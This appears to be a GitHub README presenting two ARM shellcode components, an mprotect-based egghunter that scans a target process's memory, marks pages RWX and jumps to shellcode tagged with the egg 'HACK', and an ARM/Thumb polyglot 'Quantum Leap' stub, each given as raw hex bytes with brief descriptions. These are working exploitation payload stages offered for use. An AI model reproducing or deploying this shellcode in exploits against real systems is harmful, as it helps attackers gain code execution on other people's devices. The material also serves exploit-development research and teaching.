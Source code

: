 ARM Shellcode
=============

1. mprotect egghunter
---------------------

-	Searches for an EGG (4+4 byte value) in the memory of the exploited process.
-	Uses mprotect() to test the presence of pages in the virtual memory space of the target process.
-	mprotect() also marks pages RWX as it scans the virtual memory space.
-	Upon finding the pre-defined EGG occuring at consecutive locations, the mprotect egghunter passes on the execution control to the shellcode appended to the eggs.

RAW SHELLCODE:

```
$mprotect_egghunter = "\x01\x10\x8f\xe2\x11\xff\x2f\xe1" .
                      "\x6d\x40\x7d\x27\x01\x21\x09\x03" .
                      "\x07\x22\x28\x1c\x01\xdf\x0c\x30" .
                      "\x01\xd1\x6d\x18\xf9\xe7\x6e\x18" .
                      "\x05\x48\x2b\x68\x04\x35\xb5\x42" .
                      "\xf3\xd0\x2c\x68\x98\x42\xf8\xd1" .
                      "\xa3\x42\xf6\xd1\x04\x35\x28\x47" .
                      "HACK";
```

2. Quantum Leap code
--------------------

-	ARM/Thumb Polyglot code.
-	Can be started in ARM mode or Thumb mode.
-	Irrespective of the mode it is started in, the Quantum Leap code will switch the CPU to Thumb mode and proceed to execute any Thumb shellcode appended to it.

RAW SHELLCODE:

```
$quantum_leap_stub =  "\x19\xa0\x8f\x22\x15\xa0\x8f\x32" .
                      "\x0d\x40\xa0\x21\x0d\x40\xa0\x31" .
                      "\x12\x04\x2d\x29\x12\x04\x2d\x39" .
                      "\x02\xa0\xbd\x28\x02\xa0\xbd\x38";
```

For more details please browse through my presentation titled "Make ARM Shellcode Great Again" at https://www.slideshare.net/saumilshah/make-arm-shellcode-great-again

@therealsaumil
